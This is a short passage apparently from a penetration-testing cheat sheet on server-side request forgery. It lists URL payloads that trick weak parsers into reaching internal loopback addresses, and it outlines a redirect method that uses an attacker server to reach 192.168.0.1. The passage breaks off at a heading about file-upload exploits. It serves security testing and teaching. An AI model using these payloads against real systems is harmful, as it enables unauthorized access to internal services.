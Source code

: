 ### **Bypass against a weak parser** ###

```
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![](<../../attachments/image (23).png>)

### **Advanced exploit using a redirection** ###

```markup
Create a subdomain pointing to 192.168.0.1 with DNS A record.
Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

### **Advanced exploit using (type=url) while uploading a file/image** ###
